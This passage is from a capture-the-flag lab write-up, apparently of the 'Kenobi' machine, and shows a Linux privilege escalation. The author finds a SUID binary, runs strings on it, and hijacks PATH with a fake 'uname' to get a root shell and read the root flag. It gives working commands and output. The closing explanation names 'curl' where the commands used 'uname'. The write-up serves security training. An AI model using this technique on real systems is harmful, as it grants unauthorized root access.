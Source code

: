 ```sh
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

What file looks particularly out of the ordinary? 

> Réponse: **/usr/bin/menu**

### #2 Run the binary, how many options appear?

> Réponse: **3**

### #3 Strings is a command on Linux that looks for human readable strings on a binary.

```sh
strings /usr/bin/menu
```

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

```sh

kenobi@kenobi:/dev/shm$ echo /bin/bash > uname
kenobi@kenobi:/dev/shm$ chmod 777 uname 
kenobi@kenobi:/dev/shm$ export PATH=/dev/shm:$PATH

kenobi@kenobi:/dev/shm$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/dev/shm# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
root@kenobi:/dev/shm# cat /root/root.txt 
177b3cd8562289f37382721c28381f02

```

> We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!


### #4 What is the root flag (/root/root.txt)?

> Réponse: 
